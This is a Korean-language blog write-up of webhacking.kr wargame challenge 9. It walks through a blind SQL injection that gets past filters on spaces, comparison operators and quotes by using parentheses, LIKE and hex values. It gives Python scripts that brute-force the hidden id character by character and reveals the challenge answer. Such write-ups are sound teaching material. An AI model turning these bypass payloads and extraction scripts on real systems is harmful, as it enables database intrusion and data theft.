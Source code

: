 ```yaml
---
title: "[webhacking.kr] 9번 문제 풀이[blind sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - blind sql injection
toc: true
toc_sticky: true
toc_label: "9번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 9번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면 & 문제 분석
  처음 접속하면 그림처럼 1,2,3 페이지로 넘어갈 수 있게 되어 있습니다.

  ![image](https://user-images.githubusercontent.com/33647663/150671227-86f77835-8def-4b11-9892-3da591988d82.png)

  1,2,3을 각각 눌러보면 다음과 같은 화면이 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/150671332-bb20d714-4707-4315-bdec-09489dcbab76.png)

  3번 페이지를 보니 no=3일때의 id를 구하면 되는 문제 입니다. 

  개발자 모드를 통한 소스코드나, 쿠키 값을 봐도 별다른 특이사항이 없으므로 blind sql injection 문제로 추정됩니다.

  위의 내용을 토대로 테스트를 진행해 보기위해 로컬에 DB를 다음과 같이 구성했습니다.

  ![image](https://user-images.githubusercontent.com/33647663/150671374-1d96ab3f-f296-450e-9841-249115a52fe0.png)

  
# 문제 풀이
## 풀이 설계
 페이지 구성이 간단해서 화면에 'Apple', 'Banana'를 띄워주는 부분에서 호출되는 SQL문은 다음과 같다고 추론할 수 있습니다.
 ```sql
 select id from chall9 where no = {}
 ```

 따라서 ```no={}```부분에 mysql 함수들을 이용해서 나오는 결과에 따라서 출력되는 id 값을 통해서 함수들의 값을 확인할 수 있습니다.

 예를들어 
 ```
 select id from chall9 where no = 1=1
 ```

 을 입력한다면 1=1 -> 1 이기 때문에 화면에는 

 ```
 select id from chall9 where no=1 
 ```
 의 결과 값인 Apple이 나올 것입니다.

 본 문제에서는 **=** 문자가 필터링 되어 있어서 테스트를 다음과 같이 수행해 봤습니다.

 ![image](https://user-images.githubusercontent.com/33647663/150671579-fa139650-aa6a-4c46-abc5-dd81ca04f15d.png)

 ![image](https://user-images.githubusercontent.com/33647663/150671561-a098530d-1a47-4b1f-ab8c-dcc2896fab9b.png)

 다음과 같이 함수의 결과가 각각 1,2 이기 때문에 화면에 no=1인 apple과 no=2인 banana가 출력되었습니다. 


## 필터링 우회
 우선 이번 문제는 필터링이 생각보다 많이 되어 있었습니다. 제가 생각한 대부분의 문자가 필터링 되어 있었는데 그중 가장 우회하기 힘든 것은 **공백**필터링과, **비교연산자** ('=','<','>')필터링 그리고 **문자열 필터링**(') 이었습니다.
 
 첫번째로 공백문자(%20,%09,%0a)가 모두 필터링 되어 있었기 때문에 여러 함수들을 사용하기 위해서는 다음처럼  '(', ')'를 이용해서 사용해야 했습니다.

 ![image](https://user-images.githubusercontent.com/33647663/150672184-4a075979-e14d-409f-85ec-29ccf344424a.png)
 
 두번째로, 단순 비교연산을 하기 위해 필요한 연산자들이 모두 필터링 되어 있어서 이를 우회하기 위해서 like 함수를 사용했습니다. 그리고 마지막으로 like 를 사용하려면 다음처럼 사용이 가능한데
 ```sql
    select substr('admin',1,1) like 'a'
 ```

 ![image](https://user-images.githubusercontent.com/33647663/150672123-1eafc525-4614-4587-8349-73736bd12110.png)

  (') 세미콜론이 필터링 되어 있어서 다음처럼 0x61같이 hex값으로 우회를 했습니다. 

  ![image](https://user-images.githubusercontent.com/33647663/150672149-d213b031-a0ed-49bc-95b9-5d1b4fa56700.png)

  그리고 이번 문제에서 인젝션을 수행하기 위해서는 다음의 개념을 정확하게 이해해야 합니다.

  우선 현재 테이블에 있는 정보가 다음과 같다고 할때,

  | id | no |
  |:---:|:---:|
  |apple|1|
  |banana|2|
  |secret_word|3|
  
  아래 sql문이 어떻게 동작하는지 살펴보겠습니다.

  ```sql
  select id from chall9 where no = (length(id)=5);
  ```

  우선 위의 쿼리문을 실행하면 다음과 같이 'apple'이 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/150687330-1312ea33-3d9d-40b6-9369-bd974bdc631d.png)

  그러면 다음 sql 문은 어떻게 동작할까요? sql문이 익숙하지 않으신 분은 아마 'banana'가 나올거라고 생각할 수도 있는데 결과는 아무것도 출력되지 않습니다.

  ```sql
  select id from chall9 where no = (length(id)=6);
  ```

  ![image](https://user-images.githubusercontent.com/33647663/150687398-53b90d56-53f0-4d98-9faf-9d2bc02db4ef.png)

  이를 이해하기 위해서는 위의 쿼리문이 각각의 열에 대해서 다 다르게 작동된다는 것을 알아야 합니다. 먼저 length(id)=5 인경우에 대해서는 각각의 열에서 쿼리가 다음과 같이 변환됩니다.

  ```sql
  apple : length(id) = 5  --> 1
  select id from chall9 where no = 1
  --> apple의 no = 1이기 때문에 조건을 만족하여 출력

  banana : length(id) = 5  --> 0
  select id from chall9 where no = 0
  --> banana의 no = 2이기 때문에 출력되지 않음

  secret_word : length(id) =5 --> 0
  select id from chall9 where no = 0
  --> secret_word의 no = 3이기 때문에 출력되지 않음 
  ```


  같은 방식으로 length(id)=6인 경우에는 다음과 같이 1차적인 연산이 수행됩니다. 

  ![image](https://user-images.githubusercontent.com/33647663/150687850-b1f7a192-0b75-45ed-ab3d-976f0b9ad3bc.png)

  그 다음은 3개의 열에 각각
  ```sql
  apple : select id from chall9 where no =0;

  banana: select id from chall9 where no =1;
  
  secret_word : select id from chall9 whrer no=0;
  ```

  이렇게 나오게 됩니다. 여기까지만 봤을때, banana의 경우 출력값이 ```select id from chall9 where no =1```이기 때문에 그렇다면 ```apple```이 결과로 나오는 건가? 라고 생각할 수도 있지만, no = 1이 나올때는 length(id) = 6이기 때문에[id:banana인 경우] 1이 나온것이라서 이는 논리적으로 맞지 않습니다. 그래서 length(id) = 6인 banana값을 쿼리문을 통해서 찾고 싶다면 다음과 같은 방법을 사용해 줘야 합니다.

  ```sql
  select id from chall9 where no = if(length(id)=6,2,0);
  ```

  이렇게 된다면 length(id) = 6이 참이라면, if문에 의해서 결과값이 2가 되며 결과적으로는 'banana'열은
  ```sql
  select id from chall9 where no = 2
  ```
  가 되게 됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/150688077-3f8be46b-d73a-4ea2-9d05-44c17cf76e8b.png)

  위의 개념들을 다 정리하고 난 후 파이썬 코드를 작성하여 자동화 시켰습니다.

  ---
  먼저 id의 길이를 알아내는 쿼리 입니다. 좀전에 설명했던 개념대로 if(length(id)like($길이),3,0) 형태로 쿼리를 작성해 줬습니다. 

  ```python
    url = "https://webhacking.kr/challenge/web-09/index.php?no="
    params = 'if(length(id)like({}),3,0)'
    TRUE_FLAG = 'Secret'

    # password의 길이를 구하는 쿼리
    for i in range(15):
        request_url = url + params.format(i)
        response = requests.get(request_url)
        if(TRUE_FLAG in response.text):
            print("id's length : " + str(i))

  ```
  
  그다음은 비밀번호의 길이만큼 substr을 이용하여 한 글자씩 알아내는 쿼리입니다. 맨 아래의 실행 결과를 보면 한 글자씩 a,b,c,d, ... 이렇게 비교를 해가면서 결과를 비교하는 과정입니다.

  ```python
    password = ''
    for i in range(1,12):
        for j in range(65,127):
            params = 'if(substr(id,{},1)like({}),3,0)'.format(i,hex(j))
            print(params)
            request_url = url + params
            response = requests.get(request_url)
            if(TRUE_FLAG in response.text):
                print('find {}st character : {}'.format(i,chr(j)))
                password += chr(j)
                break
   ```


  최종 실행결과는 다음과 같이 나왔으며, 비밀번호인 'alsrkswhaql'를 입력해 주면 문제가 풀립니다.

  ![image](https://user-images.githubusercontent.com/33647663/150688879-6ceaf98d-8c5c-4397-8e70-2198aa3bd480.png)

  ![image](https://user-images.githubusercontent.com/33647663/150688956-fe00747b-35df-4df7-965b-2e256b11e984.png)


